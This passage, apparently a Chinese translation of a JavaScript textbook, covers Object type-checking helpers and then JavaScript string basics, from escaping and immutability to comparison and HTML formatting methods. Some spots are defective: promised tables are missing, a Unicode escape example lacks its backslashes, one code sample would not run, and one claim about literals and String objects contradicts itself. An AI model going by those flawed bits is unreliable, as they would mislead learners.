document.write(myObj.getType() + "<br />"); // object
document.write(myRegex.getType() + "<br />"); // regex
```

`document.write(myDate.getType() + "<br />");` // "date" 这对于对于你确定是对象的变量运行良好，但这种方法的一个缺点是它对 null 无效，因为变量没有继承自 Object 类。展示此功能的另一种方法是将其作为静态函数添加到 Object 类中并直接引用它。这也可以同样容易地放在单独的工具类中，但这类辅助函数归类到 Object 上更有意义。 // 重写我们改进的 typeof 以作为静态函数存在并测试 null

```javascript
Object.getType = function(obj) {
    if (typeof(obj) == "object") {
        if (obj === null) return "null";
        if (obj.constructor == (new Array).constructor) return "array";
        if (obj.constructor == (new Date).constructor) return "date";
        if (obj.constructor == (new RegExp).constructor) return "regex";
        return "object";
    }
    return typeof(obj);
}
```

现在你可以测试这个静态方法并包含对 null 的测试了：// 测试我们的静态 getType() 函数

```javascript
var myArray = new Array();
var myObj = new Object();
var myRegex = new RegExp();
var myDate = new Date();
var myNull = null;

document.write(Object.getType(myArray) + "<br />"); // "array"
document.write(Object.getType(myObj) + "<br />"); // "object"
document.write(Object.getType(myRegex) + "<br />"); // "regex"
document.write(Object.getType(myDate) + "<br />"); // "date"
document.write(Object.getType(myNull) + "<br />"); // "null"
```

### isType() 函数

你改进的 typeof 方法无疑很有帮助，但如果你用它来*检查*对象的类型以执行某些特定操作，你将不可避免地在代码中嵌入大量的字符串比较，比如：`if (Object.getType(myObj) == "array") ...`。这种方法虽然完全有效，但也非常冗长，某些人会认为它很乱。如果你使用这种方法但忘记了正则表达式对象的精确响应值，或者拼写错了 "array" 单词，这些比较可能会变成 Bug 的来源。对对象进行快速类型检查的更简洁、可靠的方法可能是在 Object 类上嵌入几个简单的辅助函数来替你完成这些比较。例如，你可能更喜欢使用类似这样的代码：`if (Object.isArray(myObj)) ...`。这里有你可能想要使用的几个：

#### isArray()

如果参数是 Array，此方法将返回 true，否则返回 false。 // 检查某物是否为数组

```javascript
Object.isArray = function(obj) {
    // 测试它是否是一个对象并且其构造函数是否为数组
    return (typeof obj == 'object' && obj.constructor == Array)
}
```

#### isBoolean()

如果参数是 Boolean，此方法将返回 true，否则返回 false。 // 检查某物是否为布尔

```javascript
Object.isBoolean = function(obj) {
    // 测试它是否是一个对象并且其构造函数是否为 Boolean
    return (typeof obj == 'boolean')
}
```

#### isDate()

如果参数是日期，此方法将返回 true，否则返回 false。 // 检查某物是否为日期

```javascript
Object.isDate = function(obj) {
    // 测试它是否是一个对象并且其构造函数是否为日期
    return (typeof obj == 'object' && obj.constructor == Date)
}
```

#### isFunction()

如果参数是函数，此方法将返回 true，否则返回 false。 // 检查某物是否为函数

```javascript
Object.isFunction = function(obj) {
    return (typeof obj == 'function')
}
```

#### isNull()

如果参数是 null，此方法将返回 true，否则返回 false。 // 检查某物是否为 null

```javascript
Object.isNull = function(obj) {
    return (typeof obj == 'object' && !obj)
}
```

#### isNumber()

如果参数是有效的数字，此方法将返回 true，否则返回 false。 // 检查某物是否为数字

```javascript
Object.isNumber = function(obj) {
    return typeof obj == 'number' && isFinite(obj);
}
```

#### isObject()

如果参数是对象（包括继承自对象的类型），此方法将返回 true，否则返回 false。 // 检查某物是否为对象

```javascript
Object.isObject = function(obj) {
    return (typeof obj == 'object' && !!obj) || (typeof obj == 'function');
}
```

#### isRegex()

如果参数是 RegExp，此方法将返回 true，否则返回 false。 // 检查某物是否为正则表达式

```javascript
Object.isRegex = function(obj) {
    return (typeof obj == 'object' && obj.constructor == RegExp)
}
```

#### isString()

如果参数是字符串，此方法将返回 true，否则返回 false。 // 检查某物是否为字符串

```javascript
Object.isString = function(obj) {
    return (typeof obj == 'string')
}
```

#### isUndefined()

如果参数是 undefined，此方法将返回 true，否则返回 false。 // 检查某物是否为 undefined

```javascript
Object.isUndefined = function(obj) {
    return (typeof obj == 'undefined')
}
```

## 总结

在这一章中，你探索了与全局对象的问题，以及面向对象开发的基础构建之一：Object 对象。让我们回顾一下讨论过的内容：

- 全局对象是语言中可用的顶级上下文，在浏览器中被赋值给 `window`。

- 它包含了许多非常有用的属性和函数，例如用于 URL 编码字符串、处理数值以及动态评估新的 JavaScript 表达式和语句。

- 全局对象还包含许多基础类，如 Number、Date、String 等。

- 所有这些类都继承自父对象 Object。

- Object 对象还包含许多用的属性和函数，它们会扩展到语言中的所有其他对象，无论是内置还是自定义的。

- Object 对象最重要的属性之一是原型，它提供了一种扩展对象以默认包含新属性和方法的方法。

- 使用原型扩展对象是为我们的所有对象添加新功能的方便方法。Object 类也是存储与对象相关的静态函数的极佳位置。

在第 7 章中，我将探索 String 和 RegExp（正则表达式）类型。字符串是用于表示文本的原始数据类型，而正则表达式是用于对字符串执行模式匹配的语法。

JavaScript 中的所有字符串都成为 `String` 对象的实例，该对象是一个包装类，也是全局对象的成员。这会自动为每个创建的字符串扩展某些属性和方法。然而，重要的是记住，虽然字符串是对象，但存在一种字符串原始类型（string primitive），`String` 包装类通过额外的功能对其进行了增强。`String` 包装类包含以下成员：这些特性，无论是使用字面量表示法还是使用对象构造函数创建的字符串都会继承这些特性。请注意，并非所有这些特性在所有浏览器中可用。详细的兼容性信息请参见附录 B。

# 字符串基础

JavaScript 的字符串支持底层有一个强大的框架，这使得处理字符串变得简单。在这里，我将涵盖字符串的基础知识：你如何创建它们、它们在底层是如何运行的、你如何插入基础格式信息，以及它们如何与数字交互。

### 字符串字面量

可以通过代码中的字面量表示法轻松地创建字符串。字符串字面量（或原始类型）表示为由两个单引号（’ ’）或两个双引号（″ ″）括起来字符序列。以下是一些示例：

```javascript
var emptystring = ""; // 没有任何字符也是可以接受的

var myname = "Alex"; // 一个基础字面量

var nickname = "Ol' Stink Eye"; // 注意两个双引号内部未编码的单引号

var pets = 'One dog one cat'; // 注意这里对单引号任意使用

var favourite_expression = 'Don\'t count your chickens until they\'re hatched.';
```

在最后一个示例中（借自第 3 章），你使用反斜杠来对单词 "Don’t" 内部的单引号进行编码。之所以这样做是因为单引号样式也被用于包围字符串字面量。这被称为转义（escaping），将在本章稍后的部分进行详细介绍。能够使用两种类型的包围引号仅仅是为了方便，使用其中一种而不是另一种并没有区别。唯一需要记住的是，字符串的两端必须使用相同类型的引号。

## 字符串编码

正如我在第 3 章中描述的，现代 JavaScript 解释器在语法和字符串上都支持完全的国际化（i18n）。它通过支持 `Unicode` 字符标准来实现，这是表示大多数语言的主流国际标准。使用 `Unicode` 时，你必须为表示多个字节的字符选择一种编码方案（例如日语汉字）。`Unicode` 内部一种流行的编码方案是 `UTF-8`，它使用单个字节描述拉丁字母中的字符以及原始 256 个 ASCII 符号中的任何内容，但使用二到四个字节来描述该子集以上的其他字符。这很重要，因为你不仅可以通过这种方式实现本地化；在底层，你还可以依赖内置的字符串处理函数来安全地处理多字节字符字符串。这对于其他语言并不总是如此。特别是像 Ruby 和 PHP 等语言，因其字符串处理函数在用于 Unicode 字符串时会崩溃而臭名昭著。原始规范中的几个过时函数不支持 Unicode；例如 `escape()` 和 `unescape()`（请使用 `encodeURI()` 或 `encodeURIComponent()`）。此外，在基于 Mozilla 的浏览器中，1.3 之前的 JavaScript 版本不支持 `Unicode`。浏览器对 Unicode 的支持情况为 Netscape 4.06+、Firefox（所有）、Safari（所有）、Chrome（所有）、Opera 7.2+ 以及 Internet Explorer 4.0+。并不意外，浏览器之间的 Unicode 支持并非没有问题。特别是 IE5 节点在显示阿拉伯语的中形式和末尾形式方面存在问题，使其在该用途上毫无用处。Safari 不允许西里尔字母（俄语文本）斜体。某些基于 Mozilla 的浏览器（包括所有版本的 Netscape）在显示某些下标和上标字符（如希伯来元音）时似乎存在问题。

在字符串内部，你可以使用转义序列对文本中难以（或不安全）表示的字符进行编码，如格式符号（回车符和制表符）以及字符。转义序列以反斜杠开始，然后跟一个指示符号类型的字母。一些基础格式转义序列如下：

例如，如果你想在 `alert()` 框中显示换行，你可以这样做：

```javascript
alert("Hello World!\nWe hope you enjoy this site.");
```

这将产生下面的警报框，如图 7-1 所示。**图 7-1**

正如我们讨论过的，字符串字面量可以使用两种引号，只要两端相同即可。在浏览器中工作时，能够在单引号和双引号之间切换可能非常方便。例如，鉴于 HTML 使用双引号标准，你可以选择单引号来封装包含 HTML 的字符串字面量，从而避免转义过多的字符。例如，考虑以下两个字面量：

```html
"<textarea cols=\"30\" rows=\"10\" name=\"myTextArea\" id=\"textarea1\"></textarea>"

'<textarea cols="30" row="10" name="myTextarea" id="textarea1"></textarea>'
```

在第一个示例中，你必须对大量的双引号进行编码，因为那是你使用的字面量样式。在第二个，由于你使用了单引号字面量，你可以省略大量的编码，使得编写 HTML 更容易，也便于日后阅读。当然，从风格上讲，你应该决定使用其中一种以保持一致性。

`Unicode` 值也一样。`Unicode` 转义序列以 `\u` 开始，然后是一个由十六进制表达式定义的 16 位数值。例如，`00AE` 代表商标符号。若要在字符串字面量中使用这种编码表示此，应写成 `"\u00AE"`。字符串 `"\u0048u0065u006cu006cu006f"`。如果你要在文本中编码反斜杠，编码仅仅是将两个反斜杠放在一起：

```javascript
"He was her friend\\boyfriend"
```

如果你意外创建了一个不存在的转义序列（一个未在任何地方定义的序列），如 `\x`，解释器只会返回反斜杠后面的字母。例如，`"hello \world"` 将被解释为 `"hello world"`。如果你在不需要引号的字符串中错误地编码了引号，该编码将被忽略。看这些示例：

```javascript
// 别担心
"Don\' worry"

// 船的名字是 "Distant Shores"。
'The boat\'s name was "Distant Shores"'
```

在这些每个示例中，引号都被没必要地编码了，因为另一端使用了相反类型的引号来包围字面量。解释器将忽略这些编码并返回预期的字符串。

## 字符串中的换行

**你的字符串字面量也可以包含实际的换行，允许你将字面量跨越多行代码。这是通过在换行前加上反斜杠转义序列 `″\″` 实现的。示例演示了这一点。Mozilla JavaScript 文档指出，这类换行并不意味着字面量本身包含 `\n` 风格的换行，它们只是允许我们将字面量跨多行分布，仿佛它们都在同一行上。然而，在实践中情况并非如此。由于此功能似乎有 Bug 且不受其他引擎支持，建议你不要使用它。**

```javascript
var lineBreakString = "Hello \

World";

var noLineBreakString = "Hello World";
```

```
// 在 Mozilla 中不会抛出错误，但在其他浏览器中会报错

// 在 Mozilla 中应该返回 "true"

document.write( lineBreakString == noLineBreakString );
```

## 字符串的不可变性

字符串的一个有趣（尽管并不总是有用）的特性是它们是`不可变`的。这意味着它们的值永远无法被改变。起初，这听起来可能不对，因为你知道你`可以`改变包含字符串的变量，甚至对它们执行复杂的操作。这是一个非常底层的问题，仅影响特性在解释器级别的实现方式。不可变对象在编译器或解释器级别通常通过指针表示。通常，在具有不可变字符串的语言中，当对字符串进行更改时，编译器会取消引用原始字符串，创建一个带有请求更改的新字符串值，并将新指针分配给字符串对象。这种技术被称为`写时复制`（COW）。让像字符串这样的基本类型变为不可变，为并发和内存节省等底层编程问题提供了方便的解决方案。

然而，在 JavaScript 中，发生了更奇怪的事情。它不是将字符串复制到新指针上，而是返回一个应用了更改的全新字符串对象。每个字符串修改器，包括 `replace()`、`slice()`、`split()`、`big()` 等，都会保持原始字符串对象不变并返回一个全新的对象。这意味着你无法通过 `charAt()` 方法或 `Array` 符号法（在 Firefox 中）选择性地修改字符串的局部。例如，尝试以下操作将不起作用：

```
// 这在任何浏览器中都不行
myString.charAt(2) = "A";

// 这样也不行
myString[2] = "A";
```

这对开发者产生的影响是，每个字符串操作在 CPU 和内存上都有内在成本，而且这种成本可能是巨大的。具体有多大将在后续章节中解释。这些悬挂在内存中的取消引用字符串还会影响垃圾回收器的性能，垃圾回收器并不能总是通过简单的性能测试轻松衡量，因为它是与字符串操作异步执行的。既然如此，理理开发者可以使用可用的技术来提高字符串操作的性能和效率。在现代浏览器中，令人的是，情况并不总是如此。原生字符串操作已经经过了大量的优化，使其比以前任何时候都快，正如你将在后续章节中看到的，你只需为特定任务选择正确的技术就能获益。

## 字符串长度

字符串对象的内置属性和方法的一部分包含了组合字符串、读取字符串部分、搜索字符串以及更改字符串所需的所有工具。最基础的内置属性之一是按字符数计算的长度。可以通过引用字符串的 `length` 属性来轻松读取。无论是字面量还是变量，你都可以提取字符串的长度属性：

```javascript
var myString = "Hello World";

document.write(myString.length + "<br />");    // "11"

document.write("Hello World".length);    // "11"
```

`length` 属性仅测量编写的字符，忽略任何语法标点符号（如编码符号）。例如，字符串 `"\u0048\u0065\u006c\u006c\u006f"`（"Hello"）尽管在字面量中看起来有 30 个字母，但返回的长度为 5。格式化转义序列如 `\n`（换行 - 1 个字符）和 `\t`（水平制表符 - 1 个字符）也是如此。`length` 属性适用于 JavaScript 中的所有字符串，而不仅仅是我们自己创建的。例如，你可以轻松地读取 `document.title` 字符串的长度，就像读取你自己的变量一样简单。

## 基本类型或对象

在某些语言中，字符串是由许多称为 `Chars` 的基本类组成的结构。这扩展了 `String` 类某些其他属性，例如作为`引用类型`的属性。正如第 3 章所述，引用类型的变量只是`指向`或`引用`数据存在的内存位置。此外，正如我之前演示的那样，当你复制引用类型时，你只是复制了它们的指针，对原始对象的任何更改都会影响任何“拷贝”。在 JavaScript 中，具有基本类型状态的字符串是通过值复制而不是引用复制，并且不像某些其他语言那样由特殊的 `Char` 类数组组成，因为 JavaScript 中没有这种类型。

例如，如果字符串是引用类型，以下操作将无法预期工作：

```javascript
// 如果字符串是引用类型，以下操作将不起作用..
var myString1 = "Hello World";

var myString2 = myString1;

myString1 = "Hello Universe";

document.write(myString2); // "Hello World"
```

然而，在 JavaScript 中既有字符串`基本类型`，也有 `String` 对象。在功能上，它们非常相似，但存在细微的差别。创建字符串有多种方法，并且我们所说的`string` 有两个子类。这些是字符串`基本类型`和包装类 `String`，后者是一个完整的`对象`。首先，看创建字符串的各种方式：


```javascript
// 从字面量创建一个简单的字符串基本类型
var myStringPrimitive = "Hello World";

// 使用 String 对象构造函数创建一个更复杂的 String 对象
var myStringObject = new String("Hello World");

// 我们也可以通过省略 "new" 关键字创建一个字符串基本类型..
var myStringPrimitive2 = String("Hello World");
```

关于构造函数的说明，请参阅第 12 章。你可能会问自己，如果在代码中以多种不同的方式创建字符串，那么其中一种和另一种之间是否有区别？答案是有保留的`是`。从表面上看，所有这些字符串的行为都是相同的。例如，你可以在这些类型上访问 `String` 对象的方法和属性：

```javascript
// 可以在变量（无论是基本类型还是对象）上访问字符串的长度属性
// 也可以在字面量（基本类型的另一种形式）上访问
document.write( myStringPrimitive.length + "<br />");    // "11"

document.write( myStringPrimitive2.length + "<br />");  // "11"

document.write("Hello World".length + "<br />");    // "11"

document.write( myStringObject.length);  // "11"
```

但这是因为 JavaScript 在需要时会自动将基本类型转换为对象。这并不是永久的更改，只是针对该特定操作的临时更改。在上述每个使用字符串基本类型 `length` 属性的案例中，JavaScript 都临时地将其转换成了对象。这并不意味着它们都是相同的。例如，如果你使用 `typeof` 写出变量 `type`，你可以立即看出区别：

```javascript
document.write( typeof myStringPrimitive + "<br />" );    // "string"

document.write( typeof myStringPrimitive2 + "<br />" );  // "string"

document.write( typeof "Hello World" + "<br />" );    // "string"
```

```javascript
document.write( typeof myStringObject );    // "object"
```

一个正确实例化的对象实例会将自身标识为一个对象。你可以使用 `valueOf()` 方法从对象中提取原始值：

```javascript
document.write( typeof myStringObject.valueOf() );    // "string"
```

确实，每个方法都会创建一个 `String` 对象的实例，并继承执行所需的方法和属性以对它们执行操作。简单地将字面量赋值给变量，例如 `var myVar = "Hello World!";`，这在基本上等同于编写 `var myVar = new String("Hello World!");`，因为它们在需要时表现得像对象，在作为字面量使用时也像字面量。JavaScript 会在需要时隐式地进行相互转换。

总的来说，出于许多微妙的原因，你应该坚持使用字符串的原始版本。首先，如前面的示例所示，当使用 `typeof` 进行查询时，字符串原始值能够正确地识别自身。这两者之间的另一个区别是，它们在通过 `eval()` 作为脚本求值时的表现不同。看下面的示例：

```javascript
// 字符串对象和原始值在 eval() 中的行为差异

var stringPrimitive = "1 + 1";   // 创建一个简单的数学表达式字符串原始值

var stringObject = new String("1 + 1");   // 创建一个包含相同表达式的字符串对象

document.write( eval(stringPrimitive) + "<br />");    // "2"

document.write( eval(stringObject) );    // 返回字符串 "1 + 1"
```

当配合 `eval()` 使用时取决于取决于 `String` 对象还是其原始等效值，会出现不同的结果。最后的考虑可能是一致性。鉴于在某些情况下根据使用的类型会获得不同的结果，你应该标准化其中一种，以避免代码中出现困惑的 bug。

# 扩展 String 对象

扩展 `String` 对象可以是一件非常方便的事情，因为在 浏览器中，处理字符串是你最常见的操作之一。在第 6 章中，我引入了 `prototype` 属性并展示了如何扩展内置对象类。你也可以对 `String` 类这样做。看下面的示例，它为字符串对象添加了一个方法，用于反转字符串中的所有单词。与第 6 章一样，你使用 `prototype` 属性和匿名函数将此功能添加到全局 `String` 包装类中。

```javascript
String.prototype.reverseWords = function() {

  var resultString = "";

  if (this.length > 0) {
    var StringArr = this.split(" ");
    for (var i = StringArr.length-1; i > -1; i--) {
      resultString += StringArr[i];
      if (i > 0)
        resultString += " ";
    }
  }
  return resultString;
}
```

注意，你没有将结果写入 `this`。相反，你只是返回结果，开发者随后可以根据意愿对结果进行处理。你这样做是因为字符串是不可变的，因此是无法的。然而，你*可以*在任何类型的字符串上使用此函数，无论是原始值还是对象：

```javascript
var StringObjectInstance = new String("This is a test of the String prototype.");

var StringPrimitiveInstance1 = "This is a test of the String prototype on a primitive.";

var StringPrimitiveInstance2 = String("This is a test of the String prototype on another kind of primitive.");

document.write(StringObjectInstance.reverseWords() + "<br />");
document.write(StringPrimitiveInstance1.reverseWords() + "<br />");
document.write(StringPrimitiveInstance2.reverseWords() + "<br />");
document.write("This is a test of the string primitive".reverseWords());
```

这将产生以下输出：

prototype. String the of test a is This

primitive. a on prototype String the of test a is This

primitive. of kind another on prototype String the of test a is This

primitive string the of test a is This 

在整个章节中，你将经常使用这种技术来提供有关字符串的常见编程问题的解决方案。

# 字符串拼接

为了将多个字符串组合在一起，你可以使用重载的*连接*运算符（`+`），如下所示：

```javascript
String1 + "blabla" + String3
```

如果你正在追加一个字符串或一组字符串，可以使用*连接赋值*运算符（`+=`）进一步简化，如下所示：

```javascript
// 使用连接赋值运算符创建一个拼接的字符串

var myStr = "Alexei";

myStr += "Robert";

myStr += "White";
document.write(myStr); // "Alexei Robert White"
```

这等同于：

```javascript
var myStr = "Alexei";

myStr = myStr + "Robert";

myStr = myStr + "White";
```

`String` 对象上还有一个名为 `concat()` 的内置方法。这为 Java 开发者提供了一个语法上类似的便利方法。在功能上，使用连接运算符和 `concat()` 之间没有区别：

```javascript
// 使用 .concat() 创建拼接的字符串

var myStr = "Alexei";

myStr = myStr.concat("Robert");

myStr = myStr.concat("White");

document.write(myStr); // "Alexei Robert White"
```

## 关于性能的说明

多年来，字符串操作的性能受到了相当关注。Internet Explorer 在拼接长字符串时的性能非常糟糕。某些语言（例如 C#）拥有一个 `StringBuilder` 类或类似的针对字符串拼接进行优化的类。由于 JavaScript 没有这样的类，因此了解各种技术的对比情况是很有用的（请参见 图 7-2）。

图 7-2

你可以从 图 7-2 中看到，使用字符串运算符普遍比 `concat()` 快，在适用情况下，*连接赋值*在 Internet Explorer 和 Mozilla 中略有优势。

在过去，这种方法比这里显示的其他方法带来了显著的性能提升。然而，现代浏览器（包括 Internet Explorer 8）对其字符串工具进行了重大重构并经过了深度优化，以至于这种优势已不再存在。事实上，基于数组的方法实际上比运算符的等效方法*更慢*。

```javascript
// 使用模拟私有的变量构建高性能“拼接器”

var StringBuilder = (function() {
  var privateArray = new Array();
  function privateAppend(str) {
    privateArray[privateArray.length] = str;
  }
  return {
    add: function(str) {
      privateAppend(str);
    },
    value: function() {
      return privateArray.join(" ");
    }
  }

})();
```

JavaScript 是一种*弱类型*语言，这意味着变量可以从一种类型开始其生命周期（例如日期），之后变为另一种类型（可能是字符串）。这种弱类型的另一个方面是，根据它们被使用的上下文，变量可以被解释为一种类型或另一种类型。这一个典型的例子是数字和字符串之间几乎是可以互换的。例如，如果你向一个字符串添加一个数字，它会将该数字*作为*字符串处理：

```javascript
var myString = "Hello Number " + 9; // "Hello Number 9"
```

但是，你应该小心在字符串中嵌入更复杂的数学表达式。考虑以下表达式：

```javascript
var myString2 = "Hello Number " + 8+1; // "Hello Number 81"
```

在这里，它将两个数字都解释为字符串，因此它们不会被相加。你可以通过给数学表达式加括号来规避这个问题，使其被单独求：

```javascript
var myString3 = "Hello Number " + (8+1); // "Hello Number 9"
```

然而，如果你嵌入了不包含加法运算符（该运算符也重载了用于字符串）的未加括号的数学表达式，解释器将应用自己的操作顺序来尝试适应你：

```javascript
var myString4 = "Hello Number " + 9*1; // "Hello Number 9"
```

同样，当字符串与非字符串数学运算符（如减号或除法）一起使用时，解释器首先尝试将字符串值转换为其数值等值：

```javascript
var myResult = "28" - 4; // 24
var myResult2 = "28" / 4; // 7
```

# 转换为字符串

当非字符串类型隐式或显式转换为字符串时，将应用一组特定的规则将该类型*作为*字符串表示。你已经知道，在字符串拼接中使用数字会触发向该数字等值字符串的隐式转换。如果你深入研究转换规则，你会发现许多需要考虑的场景。例如，将通用对象转换为字符串（如下例所示），将输出一个相当无用的通用对象标识符：

```javascript
// 将通用对象转换为字符串

// 首先我们创建对象

var myObj = {a:true, b:23};

// 下述语句将触发对象的
// 到字符串的隐式转换

var myString = "The object: " + myObj;

// 现在我们将结果写入页面

document.write(myString);

// "The object: [object Object]"
```

在第 6 章中，我演示了一个用于对象到字符串转换的实用工具函数。现在，请查看将各种数据类型转换为字符串的完整规则：


# 比较字符串

在表达式内部比较字符串本质上几乎是数学性的，不需要像 `strcmp()` 或许多人在 PHP 和 C++ 等语言中可能熟悉的类似函数。以下是字符串运算符列表。大多数运算符与比较有关。

 参见附录 A 获取这些包含示例的完整引用。

## 等效性和字母顺序比较

等效性通过使用重载的 `Equals` 运算符 (`==`) 进行测试：

```javascript
var stringA = "Hello World";
var stringB = "Hello World";
var stringC = "Yellow World";

document.write( (stringA == stringB) + "<br />"); // true
document.write( (stringA == stringC) + "<br />"); // false
```

记住，字符串比较是非常简单的原始字母逐个测试。由于这个原因，诸如 `('JavaScript' == 'Java' + 'Scr' + 'ipt')` 的表达式始终求结果为 true。但是，正如我之前提到的，如果我比较字符串*对象*而不是原始类型，我将得到非常不同的结果：

```javascript
var stringA = new String('JavaScript');
var stringB = new String('JavaScript');

document.write(stringA == stringB); // "false"
```

这是因为变量 `stringA` 和 `stringB` 定义上是*对象*，而不是原始类型（正如我之前解释的那样）。因为对象是*引用类型*，你不能这样测试它们的等效性。

对于原始类型，你还可以按字母顺序测试字符串是否大于或小于其他字符串。这是通过在数学意义上使用相同的符号来实现的：

```javascript
document.write( (stringA >= stringB) + "<br />"); // true
document.write( (stringA <= stringC) + "<br />"); // true
document.write( (stringA > stringB) + "<br />"); // false
document.write( (stringA < stringC) + "<br />"); // true
```

每个字母都按顺序比较。如果两个字符串在其他方面相等但一个比另一个长，它将*大于*较短的字符串。如果一个字符串比另一个短但在字母顺序上更大，它也将*大于*较长的字符串。这在下面的示例所示：

```javascript
var aaa = "AAA";
var aaaa = "AAAA";
var bb = "BB";

document.write( (aaa < aaaa) + "<br />"); // true
document.write( (bb > aaaa) + "<br />"); // true
```

## 使用 localeCompare()

在较新的浏览器（Internet Explorer 5.5+, Opera 8.0+, Safari 2.0+, Chrome 和 Firefox）中，你能够使用更高级的比较功能，可以在单个函数调用中直接比较字符串原始类型*或*对象的等效性，或字母顺序的非等效性。

`localeCompare(comparisonString)` 方法执行感知区域的字符串比较，并返回 `< 0`（小于）、`0`（相等）或 `> 0`（大于），取决于系统默认语言区域的排序顺序。注意，实际返回值将取决于浏览器以及两个字符串之间差异的大小。一个使用此方法检查等效性的简单 if 语句可能如下：

```javascript
// 使用 localeCompare() 检查字符串等效性

var aa = "AA";
var bb = "BB";

if (aa.localeCompare(bb) < 0) {
  document.write(aa + " is less than " + bb);
} else if (aa.localeCompare(bb) == 0) {
  document.write(aa + " is equal to " + bb);
} else if (aa.localeCompare(bb) > 0) {
  document.write(aa + " is greater than " + bb);
}
```

上述大多数方法都不接受任何参数，因为它们只是将字符串封装在特定的 HTML 标签中。例如，如果你想给字符串添加删除线格式格式，可以使用 `.strike()`。`"This document is still draf"`.strike()` 将生成以下 HTML：`"<strike>This document is still draft</strike>"`你也可以将它们结合使用，如下：`"This document is still draft"`.strike().bold()` 变为：`"<b><strike>This document is still draft</strike></b>"`这样做的好处是，你可以在我们的 HTML 文本上实现格式化，而无需在代码中嵌入实际 HTML —— 这种方法更易调试，并且限制了我们将 HTML 代码混杂在源代码中的需求。`.quote()` 方法仅在基于 Gecko 的浏览器中支持。下面的演示了如何在简单程序中使用所有基础格式化方法。视觉输出将如下：

```javascript
var htmlOutput = "";

htmlOutput += "You can reduce the interdependency of " + "HTML".italics() + " and" +

" " + "JavaScript".italics();

htmlOutput += " by relying on the HTML formatting api's provided by the " +

"String".fixed() + " object.";

htmlOutput += "This marginally reduces " + "risk".bold() + " and improves " + "gas

mileage".strike();

htmlOutput += " separation of concerns".fontsize(16) + ". You can even implement"

" " + "cool subscript".sub();

htmlOutput += " and " + "even neater superscript".sup() + " as well as " +

"color!".fontcolor("#0000ff").bold();

document.write(htmlOutput);
```

这在我们的浏览器中看起来像这样：**图 7-3**

另外两个方便的格式化方法用于创建锚标签（<A> 标签）。`.link(lunkUrl)` 方法从某些文本创建超链接，指向提供的 URL。例如：`"Check out Google Search"`.link("[`google.com`](http://google.com)")` 将创建 HTML：`"<a href="[`google.com`](http://google.com)">Check out Google Search</a>"` 另一个锚标签方法用于页内锚点，如 (<a name="allaboutcats">All About Cats</a>)。这些使用 `.anchor(anchorName)` 方法创建：`"All About Cats"`.anchor("allaboutcats")

## 自定义 HTML 标签格式化器

在现代 Web 开发中，开发者大量使用 CSS（级联样式表）为浏览器提供样式信息。如果能对字符串中的 HTML 格式应用样式，就像我们处理粗体 (<B>) 和斜体 (<I>) 那样就太好了。一个非常实用的辅助方法是允许我们在 JavaScript 字符串字面量或变量上应用特定 CSS 类的 <SPAN>、<DIV> 或段落标签 <P>。这里有一个执行此操作的小实用工具。为了方便起见，它被附加到全局 String 对象上。

```javascript
// 此工具函数将在字符串字面量周围封装任何 HTML 标签，
// 并带有可选的 CSS 类

String.prototype.tagify = function(tag, cssClasses) {

  // 首先检查是否传递了 cssClasses

  if (!cssClasses)
    cssClasses = "";

  // 现在确保你传递了有效的标签

  if (tag)
    return '<' + tag + ' CLASS="' + cssClasses + '">' + this + '</' + tag + '>';
  else
    return this;

}
```

这里是使用几个不同标签调用此函数的示例代码：

```javascript
document.write("I am now in a styled DIV".tagify("div", "bigText"));

// <div class="bigText">I am now in a styled DIV</div>

document.write("I am now in a styled SPAN".tagify("span", "bigText"));

// <span class="bigText">I am now in a styled SPAN</span>

document.write("I am now a simple styled paragraph".tagify("p"));

// <p class="">I am now a simple styled paragraph</p>
```

## 处理大小写

在字符串中，大小写非常重要。例如，`"hello"` 不被认为等于 `"Hello"`。只有几个用于处理字符串大小写的内置实用方法。这些方法是：

## 更改大小写

转换字符串大小写有两种基本方法。一种是使用 String 对象内置的原始 `.toUpperCase()` 和 `.toLowerCase()` 方法。下面进行了演示：

```javascript
document.write("Hello World".toUpperCase() + "<br />");

// "HELLO WORLD"

document.write("Hello World".toLowerCase());

// "hello world"
```

JavaScript 还有一对对区域敏感的大小写方法：`.toLocaleUpperCase()` 和 `.toLocaleLowerCase()`，但它们仅遵循用户操作系统的默认区域设置，且无法从 JavaScript 进行控制。这些方法仅在较新的浏览器中支持，包括 Internet Explorer 5.5+ (JScript 1.2)、Netscape Navigator 6.0 (Gecko 0.6)+)、Opera 7.0+、Safari 1.0+ 以及 Firefox 和 Chrome。

## 字符串中的单词字母大化

有时你不想将字符串中的所有字母都大写，而是每个单词的首字母。要做到这一点，我们再次使用原型扩展 String 对象，并调用一个我将在本章稍后提到的正则表达式。

```javascript
String.prototype.capitalize = function() {

  return this.replace(/\b[a-z]/g, function(matchChar){

    return matchChar.toLocaleUpperCase();
  });

}
```

在这里我使用了稍微不常用的 `.toLocaleUpperCase()`，但它可以很容易地被更通用的 `.toUpperCase()` 替换。这里是该函数的示例用例：

```javascript
document.write("alexei robert white".capitalize());

// "Alexei Robert White"
```

# 搜索与替换

在上一节中，你查看了一个简单的实用函数（`capitalize()`），它使用了 String 对象中一个名为 `replace()` 的功能。此函数允许我们查看字符串内部并将一种文本模式替换为另一种。此函数是小小功能族的一部分，允许我们对 JavaScript 字符串上执行复杂的搜索和替换，这些包括：

你还将了解正则表达式的概念，它提供了一种定义文本搜索模式的语言，这不仅是 JavaScript 开发的必备技能，对于其他语言（包括 Perl、Ruby、Java 和 C#）也是如此。`match()`、`replace()`、`search()` 和 `split()` 方法都能使用正则表达式来控制它们定位文本的方式。我们并不要求在这些操作中使用正则表达式，但当你需要复杂的匹配能力时，完全可以使用。例如，假设你想在以下句子中将叹号替换为简单的句号：`"We went to the creek and saw a bear! Then he ran away!"`。使用 `.replace()` 函数，你可以通过在正则表达式中指定重复的搜索模式轻松地做到。如果你局限于简单的文本搜索和替换，你无法告诉解释器将所有的叹号替换为句号（至少在一次尝试中）——只能替换第一个（这是默认行为）。更复杂的搜索和替换模式也可以实现，正如你将看到的，它们可以考虑单词、字母数字文本甚至标点符号。这就是正则表达式的力量。

## indexOf 和 lastIndexOf 方法

如果你想测试一个字符串是否包含另一个字符串，或者快速找到某个字符串在另一个字符串中多次出现的位置，你可以立即使用两个函数，而无需使用任何正则表达式。这些是所有字符串上可用的 `.indexOf()` 和 `.lastIndexOf()` 方法。如果其中任何一个无法找到匹配项，它们将返回 `-1`；否则`.indexOf()` 将从左到右扫描并返回字符串在另一个字符串中的第一个实例，而 `.lastIndexOf()` 将从右到左扫描。

`.indexOf()` 函数使用以下语法：

`myStr.indexOf(searchstring[, startpos])`

